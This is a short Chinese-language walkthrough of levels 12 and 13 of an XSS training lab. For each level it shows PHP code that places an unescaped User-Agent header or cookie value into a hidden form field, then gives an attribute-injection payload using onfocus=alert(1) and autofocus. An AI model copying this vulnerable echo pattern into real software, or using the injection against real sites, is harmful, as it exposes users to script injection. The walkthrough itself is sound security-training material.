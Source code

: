 
# level 12

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
```

与上一题一样,这一题是判断 HTTP_USER_AGENT,直接抓包修改 HTTP_USER_AGENT

payload: `HTTP_USER_AGENT:test"onfocus=alert(1) autofocus type="text"`

---

# level 13

```php
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
```

这一题是 cookie 中的参数 user 传入导致 XSS,抓包修改 cookie

payload: `user=test"onfocus=alert(1) autofocus type="text"`

---

